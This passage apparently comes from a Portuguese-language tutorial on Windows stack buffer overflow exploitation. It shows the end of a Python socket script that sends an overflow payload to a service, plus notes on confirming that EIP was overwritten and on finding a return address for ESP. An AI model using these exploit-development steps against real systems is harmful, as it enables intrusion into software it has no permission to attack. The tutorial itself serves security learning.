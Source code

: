 ```python
s.recv(1024)

# enviando payload
print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
Se o offset estiver correto, nosso EIP será preenchido com os “B”.

![Enumaração do comando.](/std/winbof/winbof-67.png)

Sobrescrevemos o EIP com sucesso, vamos procurar um bom endereço de retorno para ESP.

![Enumaração do comando.](/std/winbof/winbof-68.png)
